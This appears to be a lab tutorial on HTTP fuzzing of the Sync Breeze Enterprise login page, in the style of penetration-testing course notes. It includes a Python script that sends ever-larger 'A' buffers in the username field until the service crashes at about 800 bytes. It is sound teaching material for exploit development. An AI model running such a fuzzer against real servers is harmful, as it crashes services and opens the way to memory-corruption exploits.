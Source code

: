 # Fuzzing

Fuzzing is a reverse engineering technique used to find places in the code where unhandled input can be provided, leading to an application crash or other behavior which can be further exploited.

## HTTP Fuzzing - SyncBreeze
## Gathering Input Data for a Seed

We open the Sync Breeze Enterprise server on our test machine and navigate to the Sync Breeze web portal:

![sync breeze portal](img/screen1.png)

We attempt to login using invalid credentials and capture the response in wireshark. We analyze the TCP stream and find our login request:

![login](img/screen2.png)
![req](img/screen3.png)

## First Fuzzer POC

The following Python script fuzzes the username parameter of the page by sending an increasingly large payload every iteration until it reaches 2000 bytes of lenght.

```
#!/usr/bin/python3
import socket
import time
import sys
size = 100

while(size < 2000):
    try:
        print("\nSending evil buffer with %s bytes" % size)
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://192.168.138.10/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(10)
    except:
        print("\nCould not connect!")
        sys.exit()
```

Running the script crashes the application at around 800 bytes:

![crash](img/screen5.png)

